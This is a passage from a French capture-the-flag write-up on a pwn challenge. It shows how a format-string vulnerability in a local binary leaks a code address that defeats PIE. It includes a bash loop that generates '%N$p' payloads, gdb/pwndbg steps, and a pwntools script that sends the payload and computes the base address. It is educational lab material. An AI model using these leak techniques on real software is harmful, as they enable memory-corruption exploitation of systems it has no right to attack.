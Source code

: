 Le gros payload `FORMATSTRING` est utile pour identifier rapidement quel bloque nous intéresse. Pour le générer, il est possible d'utiliser cette petit boucle bash:

```bash
for i in $(seq 1 64); do echo "$i:%$i\$p"; done | tr '\n' ' ' 
```

La fonction "raw_input" permet de bloquer l'exécution du programme et laisse le temps à l'attaquant de s'attacher au process.

![](/lib/images/writeups/german_fcsc/pwn//upload_b5159cd31594861ef3dde8be193143a7.png)


On cherche une adresse de fonction sur la stack, donc ça peut être l'adresse de "main", "welcome" ou "AAAAAAAA". Etant donné que la fonction "win" n'est pas appelée, il n'est pas possible de la trouver sur la stack en temps normal.

Le plugin "pwndbg" pour gdb est vraiment pratique pour récupérer tout un tas d'information sur le contexte d'exécution d'un binaire.

On va lancer une première fois le binaire avec pwntool et s'attacher au process avec gdb:

```bash
$ sudo gdb -p `pidof pwn1`
(pwndbg) > b* main
(pwndbg) > vmmap
```

![](/lib/images/writeups/german_fcsc/pwn//upload_0e52096aa4301a433becae14b83c838e.png)

Les adresses en `0x55...` sont donc des adresses liées au binaire en exécution.

Si on reprend la capture d'écran au dessus, il y en a quelques unes: 

![](/lib/images/writeups/german_fcsc/pwn//upload_e602134b7b6bf97e439d03c283b5bd4d.png)

L'adresse pointée par les flèches est l'adresse de "main":

![](/lib/images/writeups/german_fcsc/pwn//upload_cdb8ee9979a49a15db5ee8402df50f6f.png)

En comparant avec les sources, il est possible d'identifier qu'il s'agit de la même fonction:



![](/lib/images/writeups/german_fcsc/pwn//upload_7f3b93fd7eb1a4b193a22f9bdef39fa5.png)



Pour récupérer l'adresse de base, il suffit de soutraire la base adresse trouvée dans "vmmap" et l'adresse de main:

![](/lib/images/writeups/german_fcsc/pwn//upload_077c13eee08fafbc7106430098b08630.png)

Maintenant, la PIE est complètement contourné, car il est possible de récupérer l'adresse de base via un leak.

En modifiant un peu le script d'exploitation, il est possible de récupérer à tout les coups l'adresse de base:

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')
base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))
```